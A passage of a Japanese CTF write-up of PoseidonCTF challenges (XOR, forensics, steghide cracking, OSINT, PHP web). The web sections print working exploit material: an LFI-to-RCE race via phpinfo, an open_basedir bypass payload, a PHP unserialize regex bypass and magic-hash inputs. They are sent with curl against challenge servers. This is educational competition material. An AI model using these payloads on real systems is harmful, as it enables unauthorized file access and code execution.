







8 月 9 日から 8 月 10 日にかけて開催された [PoseidonCTF 1st Edition](https://www.sousse.love/) に、チーム zer0pts として参加しました。最終的にチームで 7598 点を獲得し、順位は 100 点以上得点した 333 チーム中 3 位でした。うち、私は 6 問を解いて 1488 点を入れました。

他のメンバーが書いた write-up はこちら。

- [Poseidon CTF Writeup - yoshikingのがんばる日記](https://yoshiking.hatenablog.jp/entry/2020/08/10/030427)
- [PoseidonCTF 1st Edition Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2020/08/10/123132)

以下、私の write-up です。

## [Misc 100] DISC ORDer (314 solves)
> As usual , Discord flag

この CTF の公式 Discord サーバに入ると、`#general` チャンネルのトピックが `Poseidon{L3t_Th3_FuN_B3giN}` に設定されていました。

```
Poseidon{L3t_Th3_FuN_B3giN}
```

## [Misc 100] Young Blaze (125 solves)
> I was online chillin  
> I seen a fine chick  
> She was summertime fine  
> Body banging every pic  
> And I was willin  
> To see if she exists
> 
> 添付ファイル: Damn

`Damn` がどのようなファイルか `file` コマンドで確認しましょう。

```
$ file Damn
Damn: ELF 32-bit LSB relocatable, Intel 80386, version 1 (SYSV), not stripped
```

x86 の ELF のようです。とりあえず `strings` を使ってバイナリに含まれている文字列を確認してみます。

```
$ strings ./Damn 
Ezfp|qz{nY${^Ja]!AJ1}$"J|xJ%`"h
.text:
.bss
.data
.shstrtab
.symtab
.strtab
.rel.text:
tiwini3ada!?
_start
music
_exit
result
secret
secret_len
```

``Ezfp|qz{nY${^Ja]!AJ1}$"J|xJ%`"h`` という暗号化されたフラグっぽい文字列があります。この CTF のフラグフォーマットである `Poseidon{` と XOR してみましょう。

```
$ python2
>>> from pwn import *
>>> s = 'Ezfp|qz{nY${^Ja]!AJ1}$"J|xJ%`"h'
>>> xor(s, 'Poseidon{')
'\x15\x15\x15\x15\x15\x15\x15\x15\x15\tK\x08;#\x052O:\x1a^\x0eAK.\x13\x161u\x0fQ\r'
```

`0x15` と XOR されているようです。復号しましょう。

```
>>> xor(s, 0x15)
'Poseidon{L1nK_tH4T_$h17_im_0u7}'
```

フラグが得られました。

```
Poseidon{L1nK_tH4T_$h17_im_0u7}
```

## [Foren 100] sh*tty ransomware PT2 (78 solves)
> One last thing , on my the encrypted files , my brother has a secret on it , can you reveal it for us please ?

`PT2` という部分からわかるように、この問題は `sh*tty ransomware` という問題の続きでした。

`sh*tty ransomware` では、ランサムウェアによってファイルが暗号化された Windows のメモリダンプの `ShittyRansom.raw` というファイルが与えられます。そしてランサムウェアの実行ファイルをなんらかの方法で入手して解析するという問題でしたが、なぜか `PT2` の方が正答チームが多く出ていました。どういうことでしょうか。

`ShittyRansom.raw` をバイナリエディタで開いて `Poseidon{` で検索してみると、いくつか文字列がヒットします。見つかるのは `Poseidon{OH_N0_N0t_Th4T_3Z}` ばかりですが、どう考えても偽フラグです。



諦めずにフラグ探しを続けていると、本物のフラグが暗号化されていない状態で見つかりました。



```
Poseidon{KasPersK3y_1s_H1r1ngxDD!!}
```

## [Foren 100] Gallery (52 solves)
> i have an old damaged disk , it contains a lot of my images , i use it as a gallery actually , in it , i had a secret can you get it back for me ?
> 
> 添付ファイル: challenge.E01

`challenge.E01` というファイルが与えられましたが、これはどういうファイルフォーマットなのでしょうか。`file` コマンドで確認しましょう。

```
$ file challenge.E01
challenge.E01: EWF/Expert Witness/EnCase image file format
```

`EWF/Expert Witness/EnCase image file format` とはどのようなイメージファイルなのでしょうか。ググってみると[ふるつきさん](https://twitter.com/theoremoon)が以前投稿された [Defenit CTF の問題の write-up](https://furutsuki.hatenablog.com/entry/2020/06/07/192729#Forensics-What-Browse-do-I-use) がヒットしました。`ewftool` というツールを使えばマウントできるようです。やってみましょう。

```
$ apt install ewf-tools
...
$ mkdir mnt
$ ewfmount challenge.E01 mnt/
ewfmount 20140608
$ ls mnt/
ewf1
```

`ewf1` というファイルが出てきました。どのようなファイルか `file` コマンドで確認しましょう。

```
$ file mnt/ewf1 
mnt/ewf1: DOS/MBR boot sector, code offset 0x52+2, OEM-ID "NTFS    ", sectors/cluster 8, Media descriptor 0xf8, sectors/track 63, heads 255, hidden sectors 500078592, dos < 4.0 BootSector (0x80), FAT (1Y bit by descriptor); NTFS, sectors/track 63, sectors 36863, $MFT start cluster 1536, $MFTMirror start cluster 2, bytes/RecordSegment 2^(-1*246), clusters/index block 1, serial number 04c65ac0c65ab222
```

どのようなファイルが入っているか FTK Imager で確認しましょう。ルートフォルダには PNG や JPEG 形式の画像や `Steghide` という謎のフォルダがあります。


`$RECYCLE.BIN` (ゴミ箱) を開いてみると、`$RK1ODPJ.txt` という謎のテキストファイルが見つかりました。26 文字のランダムに生成された文字列が 666 行続いているようです。



`Steghide` というフォルダが存在しているあたり、ルートフォルダにある画像ファイルのいずれかになんらかの情報が [Steghide](http://steghide.sourceforge.net/) で埋め込まれているのでしょう。`$RK1ODPJ.txt` は情報を取り出すのに必要なパスワードの候補といったところでしょう。

世の中には [StegCracker](https://github.com/Paradoxis/StegCracker) という Steghide 向けの辞書攻撃ツールがあります。これを使ってみましょう。Steghide は PNG には対応していませんから、唯一の JPEG ファイルである `Wallpaper_HD_19756487Ef4.jpg` に情報が埋め込まれているはずです。

```
$ stegcracker Wallpaper_HD_19756487Ef4.jpg \$RK1ODPJ.txt 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'Wallpaper_HD_19756487Ef4.jpg' with wordlist '$RK1ODPJ.txt'..
Successfully cracked file with password: fs6-K*Qa!qeG5Jv.URBx8)]Zu%
Tried 366 passwords
Your file has been written to: Wallpaper_HD_19756487Ef4.jpg.out
fs6-K*Qa!qeG5Jv.URBx8)]Zu%
```

`fs6-K*Qa!qeG5Jv.URBx8)]Zu%` がパスワードだったようです。展開されたファイルを見てみましょう。

```
$ cat Wallpaper_HD_19756487Ef4.jpg.out
Poseidon{uR3_4_G00D_AN4Ly5t}
```

フラグが得られました。

```
Poseidon{uR3_4_G00D_AN4Ly5t}
```

## [Misc 100] Search ! (67 solves)
> Hello , it's iwd , i'm hiding a flag on one of my accounts ,  
> can you find it for me ?
> 
> Author: iwd

この問題の作者である `iwd` さんの SNS のアカウントなどを調べてみましょう。この CTF を主催するチームの [from Sousse, with love の Web サイト](https://www.sousse.love/)のトップページには各メンバーの情報が書かれていました。

[`iwd` さんのページ](https://www.sousse.love/authors/iwd/)を見ると、本名が `Aalaeddine Knani` であることがわかりました。Facebook と Instagram のアカウントへのリンクもありましたが、いずれもこの CTF に関連する情報はほとんどなく、またフラグもありませんでした。

他にもアカウントを持っているのではないかと思い `"Aalaeddine Knani"` でググってみましたが、先程の CTF チームのメンバーページしか見つかりません。

ところが、姓名の順番を逆にした `"Knani Aalaeddine"` でググってみると [YouTube チャンネルのページ](https://www.youtube.com/channel/UC92bBsm7woQy7yxiobGKVzw)と LinkedIn のページが見つかりました。いずれもアイコンが CTF チームのメンバーページのものと一致しており、本人のものであると推測できます。

YouTube チャンネルのページについて調べていると、メールアドレスを表示できるボタンが見つかりました。



これを押してみるとフラグが得られました。



```
Posedion{U_Sh0uld_D1g_B3tt3r}@gmail.com
```

## [Web 988] Interview (7 solves)
> Exploring the streets and asking tunisians people some questions that some are stupid and some are not. However, what if you were that person at that specific moment.
> 
> NOTE: FLAG IS AT '/flag'
> 
> http://(省略)/index.php?interview=tunisian_interviews.php

URL が与えられていますが、`?interview=tunisian_interviews.php` と GET パラメータからファイル名が与えられているあたり、LFI っぽい雰囲気がしています。

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Interviews</title>
    <link rel="stylesheet" type="text/css" href="./css/styles.css" />
    <link rel="shortcut icon" href="./imgs/interview.jpg" />
</head>
<body>
    <div class="nav-top">
        <ul class="points">
            <li style="border-right: 1px solid white;"><a href="index.php?interview=tunisian_interviews.php">Interviews</a></li>
            <li><a href="config.php">PHP - INFORMATIONS</a></li>
        </ul>
    </div>
    <div class="main">
        <video width="250" height="250" controls><source src="./interviews/videos/tunisian_interviews/distributing_tunsians_over_the_world.mp4" type="video/mp4" />Your browser doesn't support video tag.</video>
        <video width="250" height="250" controls><source src="./interviews/videos/tunisian_interviews/more_than_glad_from_over_there.mp4" type="video/mp4" />Your browser doesn't support video tag.</video>
        <video width="250" height="250" controls><source src="./interviews/videos/tunisian_interviews/the_subconscient.mp4" type="video/mp4" />Your browser doesn't support video tag.</video>
        <video width="250" height="250" controls><source src="./interviews/videos/tunisian_interviews/what_to_do_with_a_women.mp4" type="video/mp4" />Your browser doesn't support video tag.</video>
            </div>
</body>
</html>
```

`config.php` へのリンクがあります。アクセスしてみると `phpinfo()` の結果が表示されました。

GET パラメータから LFI ができないか検証してみましょう。`?interview=../../config.php` にアクセスすると `config.php` にアクセスしたときと同じ内容が表示され、`?interview=php://filter/...` のようにストリームラッパーをつけるとそのようなファイルは存在しないと表示されます。おそらく `include 'dir1/dir2/' . $_GET['interview'];` のような形で LFI ができるのでしょう。

ここまでの情報から次のようなディレクトリ構造をしていることが推測できます。

```
.
+-- index.php
+-- config.php
+-- css
|   +-- styles.css
+-- imgs
|   +-- interview.jpg
+-- interview
|   +-- videos
|       +-- tunisian_interviews
|           +-- distributing_tunsians_over_the_world.mp4
|           +-- more_than_glad_from_over_there.mp4
|           +-- the_subconscient.mp4
|           +-- what_to_do_with_a_women.mp4
+-- (unknown 1)
    +-- (unknown 2)
        +-- tunisian_interviews.php
```

このディレクトリより上のファイルを読むことができないか `?interview=../../../../../../../../../etc/passwd` にアクセスしてみましたが、ファイルが存在しないと表示されます。どういうことかと `config.php` を確認したところ、`open_basedir` が `/var/www/html` に設定されていることがわかりました。`/var/www/html` 外のファイルが読めないはずです。

さて、LFI が存在しており、`phpinfo()` の情報が得られるという条件から思い出されるのは [lfi with phpinfo() assistance - Insomnia Security](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf) というテクニックです。

PHP ではファイルをアップロードすると `/tmp/phpABCDEF` のように `upload_tmp_dir` ディレクティブで指定されたディレクトリにランダムなファイル名で一時ファイルが保存されます。このテクニックは、`phpinfo()` が実行されるページに対してファイルをアップロードすると、前述のように一時ファイルのパスも出力されることから、このパスの出力から一時ファイルが削除されるまでの間に `?file=/tmp/phpABCDEF` のように一時ファイルをインクルードさせることで RCE に持ち込むことができるというものです。

とはいえ、`upload_tmp_dir` ディレクティブで指定されているディレクトリがアクセス可能でなければこのテクニックは使えません。この問題サーバではどのように設定されているか、適当なファイルをアップロードして確認しましょう。


なんと `/var/www/html` に一時ファイルが存在しています。これなら `index.php` からインクルードできそうです。

先程の資料に添付されているスクリプトなどを参考に、`config.php` に `<?php echo 'succeeded';` という内容のファイルをアップロードして一時ファイルのパスを確認し、LFI を試みるスクリプトを書きます。

TOCTOU を利用した攻撃ですから、あまりに RTT が大きいとなかなか成功せずただの DoS になってしまいます。問題サーバに近いリージョンの VPS を借りてスクリプトを走らせると、しばらくしてから `succeeded` と表示され、この方法で RCE できることが確認できました。

あとは `open_basedir` を回避して `/flag` にアクセスするだけです。

実は `open_basedir` は `chdir` と `ini_set` をうまく使えば[簡単に回避できることが知られています](https://blog.shpik.kr/2019/PHP_Open_basedir_Bypass/)。やってみましょう。

```php
<?php
echo 'succeeded';

chdir('css');
ini_set('open_basedir', '..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir', '/');
echo file_get_contents('flag');
```

これを実行させるとフラグが得られました。

```
Poseidon{El_SuuuuuuuuubC0ns13NT_P0su7uv3}
```

---

ほか、私がフラグを提出したわけではないものの面白かった問題や、解いた後に消えてしまった問題の write-up です。

## [Web 930] Old Rick (15 solves)
> Morty was hearing a sound from the garage, following it he found himself facing a little pickle on the table. Suprisingly, Rick turned himself into a pickle and now he needs help to get back to a human.
> 
> (URL)

与えられた URL にアクセスすると、以下のようなめちゃくちゃ長い PHP のコードが表示されました ([ソースコード全体はこちら](../files/20200810-poseidonctf/old_rick_index.php))。この下にも 170 行近く続いています。



`$_GET["first"]` が存在していればリクエストされたパスを `parse_url` で URL としてパースし、`parse_str` でそのクエリをパースした値と `$_GET["first"]` が矛盾しているならば…とひたすらめんどくさそうな処理をしています。

でも、よく見ると `$_GET["first"]` や `$_GET["second"]` など各パラメータに対するチェックはそれぞれ独立しており、例えば `$_GET["second"]` に対するチェックで `$_GET["first"]` が利用されるというようなことはないことがわかります。ひとつずつ片付けていきましょう。

### `$_GET["first"]`
```php
<?php
parse_str(parse_url($_SERVER["REQUEST_URI"])["query"], $params);
if ($params["first"] !== "pickle_rick") {
  if ($_GET["first"] === "pickle_rick") {
    // …
  }
}
```

`$params["first"] !== "pickle_rick"` と `$_GET["first"] === "pickle_rick"` が両立するような状況って何…? と思ってしまいますが、`$params` を作り出すために `parse_url($_SERVER["REQUEST_URI"])` と `parse_url` が使われていることに注目します。

`parse_url` がどのような挙動をするか、PHP の公式ドキュメントを確認します。

> **注意:**  
> この関数は相対 URL に対しては正しい結果を返さないかもしれません。
> 
> [PHP: parse_url - Manual](https://www.php.net/manual/ja/function.parse-url.php)

なるほど。どういうことか試してみましょう。

```
$ psysh
>>> parse_url('/hoge')
=> [
     "path" => "/hoge",
   ]
>>> parse_url('//hoge')
=> [
     "host" => "hoge",
   ]
>>> parse_url('///hoge')
=> false
```

`///hoge` とスラッシュ 3 つから始まっている文字列を `parse_url` に投げた場合、パースに失敗して `false` が返ってきました。これは使えそうです。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick'
Where would you find the components of the injection?
```

次に進むことができました。

### `$_GET["second"]`
```php
<?php
$hashed = crypt(md5($_GET["second"], fa1se), "asdf");
if (hash_equals($hashed, crypt(md5($hopper, fa1se), "asdf"))) {
  // …
} else {
  echo md5($hopper, false) . "<br />";
  die("You didn't know which hopper to use for the injection.");
}
```

`$hopper` は `secrets.php` というソースコードが与えられていないファイルで定義されています。それを当てるのは無理ゲーに見えますが、よく見ると `md5($_GET["second"], fa1se)` と `md5($hopper, fa1se)` の第二引数はいずれも `fa1se` になっています。`false` ではなく `fa1se` です。

どのような影響があるか、実際に動かしてチェックしてみましょう。

```
$ psysh
>>> @fa1se
PHP warning:  Use of undefined constant fa1se - assumed 'fa1se' (this will throw an Error in a future version of PHP) on line 1
=> "fa1se"
```

PHP では、未定義の定数を使用すると[その定数名の文字列を使用したかのように扱われ](https://www.php.net/manual/ja/language.constants.syntax.php#:~:text=%E6%9C%AA%E5%AE%9A%E7%BE%A9%E3%81%AE%E5%AE%9A%E6%95%B0%E3%82%92%E4%BD%BF%E7%94%A8%E3%81%97%E3%81%9F%E5%A0%B4%E5%90%88,%E4%BB%AE%E5%AE%9A%E3%81%97%E3%81%BE%E3%81%99)ます。これが `md5` の第二引数に渡っているわけですが、これがどのような意味を持つか PHP のドキュメントを確認しましょう。

> `md5 ( string $str [, bool $raw_output = FALSE ] ) : string`
> 
> ︙
> 
> パラメータ  
> - raw_output: オプションの `raw_output` に `TRUE` が指定された場合、 md5 ダイジェストが 16 バイト長のバイナリ形式で返されます。
> 
> [PHP: md5 - Manual](https://www.php.net/manual/ja/function.md5.php)

なるほど、第二引数に `TRUE` を渡すと 16 進数形式ではなくバイナリとしてハッシュ値が返ってくるようです。試してみましょう。

```
$ psysh
>>> @bin2hex(md5('test', fa1se))
PHP warning:  Use of undefined constant fa1se - assumed 'fa1se' (this will throw an Error in a future version of PHP) on line 1
=> "098f6bcd4621d373cade4e832627b4f6"
>>> @md5('test', fa1se) === md5('test', TRUE)
PHP warning:  Use of undefined constant fa1se - assumed 'fa1se' (this will throw an Error in a future version of PHP) on line 1
=> true
```

第二引数として `fa1se` を渡した場合には、`TRUE` を渡した場合と同じ挙動をするようです。

`md5` の話は置いておいて、どうやら `hash_equals($hashed, crypt(md5($hopper, fa1se), "asdf"))` が偽になると `echo md5($hopper, false) . "<br />";` と `$hopper` の MD5 ハッシュが得られるようです。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=a'
640011bde142fe749016646d1d64f8c5<br />You didn't know which hopper to use for the injection.
```

`crypt` は[バイナリセーフではありません](https://www.php.net/manual/ja/function.crypt.php)から、`crypt("\x64\x00\x11\xbd\xe1\x42\xfe\x74\x90\x16\x64\x6d\x1d\x64\xf8\xc5", "asdf")` は `crypt("\x64", "asdf")` と同じ結果になるはずです。総当たりで `6400` から始まる MD5 ハッシュになるような文字列を探してみましょう。

```php
<?php
error_reporting(0);

$h = hex2bin('640011bde142fe749016646d1d64f8c5'); // md5($hopper, fa1se)
$h = crypt($h, "asdf");

$i = 0;
while (true) {
  $hashed = crypt(md5($i, fa1se), "asdf");
  if ($hashed === $h) {
    echo $i . "\n";
  }
  $i++;
}
```

```
$ php find.php
47589
```

見つかりました。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=a'
You picked up the wrong paper.
```

次に進むことができました。

### `$_GET["third"]`
```php
<?php
if (strlen($_GET["third"]) <= 10) {
    $x = fopen("rightpaperheremorty.txt", "r");
    $tmp = file_get_contents($_GET["third"]);
    $content = fread($x, filesize("rightpaperheremorty.txt"));
    if ($tmp === $content) {
        fclose($x);
    }
    else {
        fclose($x);
        die("You picked up the wrong paper.");
    }
}
else {
    die("You don't know which paper reading it will lead to the right path.");
}
```

`rightpaperheremorty.txt` の内容と同じものを返すようなパスを `$_GET["third"]` から与えれば次に進めるようです。

このパスは `strlen($_GET["third"]) <= 10` と 10 文字以下でなければならず、`rightpaperheremorty.txt` は 23 文字ですからそのまま入力することはできません。

真っ先に思いついたのは [`php://` ストリームラッパー](https://www.php.net/manual/ja/wrappers.php.php)です。このうち、使えそうでかつ 10 文字以内におさまりそうなものは `php://fd` ぐらいしかありません。これは `php://fd/3` のようにファイルディスクリプタを与えるとアクセスできるというものです。

`fopen("rightpaperheremorty.txt", "r")` と `file_get_contents($_GET["third"])` の前に `rightpaperheremorty.txt` が開かれていますから、`php://fd` を使えばアクセスできそうです。ということで早速 `php://fd/[0-9]` を試しましたが、どれも通りません。`rightpaperheremorty.txt` のファイルディスクリプタは `10` 以上なのでしょうか。

ここで悩んでいると、チームメンバーの [aventador さん](https://twitter.com/kaanezder)から `/dev/fd` ならどうかというアイデアが出ました。これを利用して、[ptr-yudai さん](https://twitter.com/ptrYudai)が `/dev/fd/11` でアクセスできることを確認しました。

### `$_GET["fourth"]`
```php
<?php
class injection_chambre {
    public $sprue;
    public $mold_plate1;
    public $mold_plate2;
}
if (!preg_match("/(^|;|{|})O:[0-9]+:\"/", $_GET["fourth"])) {
    $chambre = unserialize($_GET["fourth"]);
    if ($chambre) {
        $chambre->mold_plate1 = $barrel;
        if ($chambre->sprue === "pass" && $chambre->mold_plate1 === $chambre->mold_plate2) {
          // …
        }
        else {
            die("Absolutely not the same.");
        }
    }
    else {
        die("Are you sure that's Ok?");
    }
}
else {
    die("You touched something that you're not supposed to touch.");
}
```

`/(^|;|{|})O:[0-9]+:\"/` というような正規表現にマッチしなければ、`$_GET["fourth"]` が `unserialize` されます。`unserialize` されたオブジェクトの `mold_plate1` プロパティに `$barrel` という値が推測できない変数が代入された上で、`mold_plate1` プロパティと `mold_plate2` プロパティの値が同じであれば次に進むことができるようです。

正規表現の方のチェックから考えてみましょう。

`unserialize` された後のチェックではプロパティにアクセスされるわけですから、`unserialize` の返り値はオブジェクトでなければなりません。つまり、`$_GET["fourth"]` は `O:(クラス名の長さ):"(クラス名)":(プロパティの個数):{(プロパティ)}` でなければなりません。ところが、正規表現によって `O:(数値):"` から始まる文字列が与えられた場合には弾かれてしまいます。

ここで悩んでいましたが、なんとなく問題サーバが返す `Server` ヘッダを見てみたところ 5 系の PHP が使われていることがわかりました。5 系と 7 系で `unserialize` になにか変更が加わっていないか[ソースコード](https://github.com/php/php-src)を確認してみます。

まず `serialize` されたオブジェクトの表現が変わっていないか確認しましたが、[5 系](https://github.com/php/php-src/blob/PHP-5.6.40/ext/standard/var_unserializer.re#L748)と [7 系](https://github.com/php/php-src/blob/PHP-7.4.9/ext/standard/var_unserializer.re#L1024)のいずれも `object ":" uiv ":" ["]` (`object` には `O` もしくは `C` が入る) となっており変わっていません。

`uiv` には数値が入りますが、こちらは [5 系](https://github.com/php/php-src/blob/PHP-5.6.40/ext/standard/var_unserializer.re#L282)では `uiv = [+]? [0-9]+;` であるのに対して [7 系](https://github.com/php/php-src/blob/PHP-7.4.9/ext/standard/var_unserializer.re#L378)では `uiv = [0-9]+;` と、`+` の挿入が許容されないように変更されていることがわかります。

つまり、問題サーバでは `O:+17:"injection_chambre":0:{}` のようにプロパティ名の長さに `+` を加えても `injection_chambre` のオブジェクトとして `unserialize` されるということになります。これなら正規表現によるチェックをすり抜けることができます。

続いて `mold_plate1` プロパティに推測できない値が代入された上で、`$chambre->mold_plate1 === $chambre->mold_plate2` のように `mold_plate2` プロパティと比較されるチェックについて考えてみます。

PHP にはリファレンスがあります。`$obj->mold_plate1 = &$obj->mold_plate2;` のようにしておけば、`$obj->mold_plate1 = 123;` のように `mold_plate1` プロパティだけになにか値を代入しても、`mold_plate1` プロパティと `mold_plate2` プロパティは同じものを指しているので当然 `$obj->mold_plate1 === $obj->mold_plate2` になります。

実は `serialize` はリファレンスも扱うことができます。

```php
<?php
class injection_chambre {
  public $sprue;
  public $mold_plate1;
  public $mold_plate2;

  function __construct() {
    $this->sprue = 'pass';
    $this->mold_plate1 = &$this->mold_plate2;
    $this->mold_plate2 = 456;
  }
}

$a = new injection_chambre;
echo serialize($a) . "\n"; // => O:17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}
```

これらを組み合わせて、2 つのチェックをすり抜けるような文字列を作りましょう。

```php
<?php
class injection_chambre {
  public $sprue;
  public $mold_plate1;
  public $mold_plate2;

  function __construct() {
    $this->sprue = 'pass';
    $this->mold_plate1 = &$this->mold_plate2;
    $this->mold_plate2 = 456;
  }
}

$a = serialize(new injection_chambre);
$a = str_replace('17', '+17', $a);
echo $a . "\n";
```

```
$ php ser.php
O:+17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}
```

試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2b17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}'
Where would you find the components of the injection?
```

次に進むことができました。

### `$_GET["fifth"]`
```php
<?php
$md5sum = md5(trim(file_get_contents("secret_pass.txt")));
if (preg_match("/\/[a-z\.\/]+$/i", $_POST["fifth"])) {
    if (file_exists($_POST["fifth"]) && substr(md5($_POST["fifth"]), 0, 8) == $md5sum) {
      // …
    }
    else {
        echo "{$md5sum}<br />";
        die("You lost against the jugling of Rick.");
    }
}
else {
    die("You touched something that you're not supposed to touch.");
}
```

`secret_pass.txt` の内容の MD5 ハッシュと、`$_POST["fifth"]` の MD5 ハッシュの先頭 8 文字を切り出した文字列が等しければよいようです。

無茶苦茶なことを言っていますが、よく見ると比較に `==` とゆるい比較演算子が使われていることがわかります。PHP の `==` は、文字列同士の比較であっても `'0e123' == '0e456'` のように左辺と右辺のいずれも数値っぽい文字列であれば数値として比較され、この例の場合 `0` 同士の比較として真になります。

`/\/[a-z\.\/]+$/i` にマッチするような文字列を与えた上で、`file_exists($_POST["fifth"]) && substr(md5($_POST["fifth"]), 0, 8) == $md5sum` が偽なら `$md5sum` が出力されるようです。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}' -d 'fifth=/etc'
0e291242476940776845150308577824<br />You lost against the jugling of Rick.
```

`0e291242476940776845150308577824` ときれいに Magic Hash になっています。

これで `md5($_POST["fifth"])` の先頭 8 文字が `0e[0-9]+` になるような `$_POST["fifth"]` を探せばよいとわかりました。が、`$_POST["fifth"]` は `/\/[a-z\.\/]+$/i` とパスっぽい文字列でなければならず、かつ `file_exists($_POST["fifth"])` と実際に存在するファイルかディレクトリでなければならないという制約があります。

404 ページなどから問題サーバは Debian 系の Linux が使われていることがわかります。適当に似たような環境を立てて、存在しているファイルとディレクトリを総当たりしてみましょう。

```python
import glob
import hashlib
import re
import os.path

r = re.compile(r'^0e\d+$')
def check(p):
  h = hashlib.md5(p).hexdigest()[:8]
  return r.match(h) and os.path.exists(p)

for fn in glob.glob('/*/*'):
  for i in range(10):
    if check('/' * i + fn):
      print '/' * i + fn
```

```
$ python2 crack.py
////////sbin/zramctl
```

見つかりました。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}' -d 'fifth=////////sbin/zramctl'
Where would you find the components of the injection?
```

次に進むことができました。

### `$_GET["sixth"]` と `$_GET["sixth_second"]`
```php
<?php
if (filter_var($_GET["sixth"], FILTER_VALIDATE_URL)) {
  $url = parse_url($_GET["sixth"]);
  if (!preg_match("/tftp|sftp|http|https|file|dict/i", $url["scheme"]) && preg_match("/ricksecret/i", $url["path"]) && !preg_match("/\.\./i", $url["path"]) && !preg_match("/read|base|iconv|zlib/i", $url["path"])) {    
    echo file_get_contents($_GET["sixth"]) . "<br />";
    if (isset($_GET["sixth_second"])) {
      if (!preg_match("/sixth_second|sixth second/i", urldecode($_SERVER["QUERY_STRING"]))) {
        $dbms = new mysqli($host, $username, $_GET["sixth_second"], $db_name); // There's one row where id=1 and secret='r1cks'
        $dbms->set_charset("utf8");
        if (!$dbms->connect_error) {
          // …
        }
        else {
            die("I don't think that's my password Morty.");
        }
      }
      else {
        die("You touched something that you're not supposed to touch.");
      }
    }
    else {
      die("Where would you find the components of the injection?");
    }
  }
  else {
    die("You touched something that you're not supposed to touch.");
  }
}
else {
    die("That's suspicious Morty.");
}
```

`$_GET["sixth"]` を URL としてパースしてスキームなどをチェックした上で、OK ならば `echo file_get_contents($_GET["sixth"]);` と `$_GET["sixth"]` をファイルのパスとしてその内容を出力しています。

`$_GET["sixth_second"]` についてなにかチェックをした上で、`new mysqli($host, $username, $_GET["sixth_second"], $db_name);` と `$_GET["sixth_second"]` をパスワードとして MySQL サーバに接続しています。`$host` や `$username` などの変数は `ricksecret/db.php` で定義されているのでしょう。

MySQL サーバにちゃんと接続できたかもチェックされていますから、パスワードをあらかじめ知っておかなければなりません。パスワードも `ricksecret/db.php` に含まれているか確認するため、`$_GET["sixth"]` で読み込めないか試してみましょう。

#### `$_GET["sixth"]`
`$_GET["sixth"]` はまず `parse_url` によって URL としてパースされています。

`preg_match("/tftp|sftp|http|https|file|dict/i", $url["scheme"])` というチェックがありますが、今やろうとしているのは `ricksecret/db.php` というローカルのファイルを読むことですから、これらのプロトコルを使うことはたぶんありませんし問題ないでしょう。ただ、`$url["scheme"]` と `scheme` にアクセスされているので、ここでエラーを起こさせないために一応 `$_GET["sixth"]` には `php` や `file` のようになにかスキームをつけておきましょう。

`preg_match("/ricksecret/i", $url["path"])` というチェックについては、やはり `ricksecret/db.php` というファイルを読もうとしているわけですから、当然パスには `ricksecret` が含まれますし問題ないでしょう。

